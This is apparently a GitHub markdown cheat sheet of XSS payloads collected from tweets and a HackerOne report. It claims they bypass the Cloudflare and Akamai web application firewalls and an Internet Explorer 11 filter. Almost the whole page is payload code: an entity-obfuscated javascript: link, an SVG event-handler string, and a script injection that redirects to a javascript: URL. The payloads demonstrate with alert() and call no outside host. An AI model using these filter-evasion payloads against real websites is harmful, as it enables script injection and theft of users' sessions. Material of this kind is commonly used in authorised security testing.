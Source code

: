 # XSS Twitter Tips

## Cloudflare XSS Bypass

[Tweet](https://twitter.com/aisecureme/status/1240354605520678913) By [AISECUREME](https://twitter.com/aisecureme)

```html
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```
----------------------------------------------------------------------------------------
## Akamai XSS Bypass

[Tweet](https://twitter.com/aisecureme/status/1240354605520678913) By [AISECUREME](https://twitter.com/aisecureme)
```html
“><svg/on</script>laod=alert>
```
------------------------------------------------------------------------------------------
## IE Bypass

IE 11 Xss Bypass [h1 report](https://hackerone.com/reports/127259) by [sergeym](https://hackerone.com/sergeym)

```html
"</script><script/%00%00v%00%00>document.location.href=location.hash.slice(1)</script>#javascript:alert(document.domain)
